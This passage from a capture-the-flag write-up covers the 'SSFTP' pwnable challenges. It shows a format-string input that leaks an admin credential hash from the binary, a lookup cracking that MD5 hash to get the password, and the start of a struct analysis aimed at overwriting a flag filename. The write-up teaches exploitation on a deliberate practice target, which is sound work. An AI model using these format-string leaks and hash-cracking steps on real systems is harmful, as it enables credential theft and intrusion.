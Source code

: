 {% highlight Bash %}

echo "%x%x%x%x%x%x" | ./ssftp
> SSFTP 0.5 - Only cool files and flags
> username: Invalid user! Good bye cf7fd685800ffffcdc0ffffcdec

echo "%x%x%x%x%x%s" | ./ssftp 
> SSFTP 0.5 - Only cool files and flags
> username: Invalid user! Good bye cf7fd685800ffffcdc0admin:37ff1026c58c24f0acb76dde8b576ef2

{% endhighlight %}

Which gives us the credentials: admin:37ff1026c58c24f0acb76dde8b576ef2
Googling the hash after the colon gives us several results revealing that it is an [MD5 hash for "AcDc"](http://hash-killer.com/dict/3/7/f/f)
Thus we can login with username "admin" and password "AcDc"

{% highlight Bash %}
SSFTP 0.5 - Only cool files and flags
username: admin
password: AcDc

SSFTP 0.5 - Only cool files and flags
MOTD: Hello admin your flag is sect{y0u_n33d_m0r3_f1re3y3s}
Main menu
1) User menu 
2) Show files
3) Exit 

> 
{% endhighlight %}

Flag: sect{y0u_n33d_m0r3_f1re3y3s}

## <a name="pwnable100-ssftp2"></a>Pwnable 100: SSFTP II

Ok, we now have access to the server. Time to get the second flag.
We have access to two features, manage users and show files.
Using the show files command we can see two files called "FLAG_1" and "FLAG_2".
In the binary there is a global variable containing the string "FLAG_1" which is used in a function read_flag() to read and display the flag.
If we can manage to change this string into "FLAG_2", we might get the flag.

Looking at the user management part, we find the each user is represented by a struct looking something like this

{% highlight C %}
struct user {
  int user_type;
  int comment_size;
  char username[12];
  char password[32];
  char *comment;
}
{% endhighlight %}
